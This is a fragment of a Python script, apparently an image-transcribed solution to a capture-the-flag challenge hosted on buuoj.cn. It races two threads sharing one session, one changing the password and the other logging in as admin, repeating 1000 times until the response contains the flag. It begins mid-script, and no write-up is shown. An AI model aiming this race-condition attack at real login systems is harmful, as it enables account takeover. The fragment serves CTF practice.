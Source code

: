 ```python
    return s.post("http://db0fc0e1-b704-4643-b0b6-d39398ff329a.node1.buuoj.cn/change", data=data)

def func1(s):
    login(s, 'test', 'test')
    change(s, 'test')

def func2(s):
    logout(s)
    res = login(s, 'admin', 'test')
    if 'flag' in res.text:
        print('finish')

def main():
    for i in range(1000):
        print(i)
        s = requests.Session()
        t1 = threading.Thread(target=func1, args=(s,))
        t2 = threading.Thread(target=func2, args=(s,))
        t1.start()
        t2.start()

if __name__ == "__main__":
    main()
```





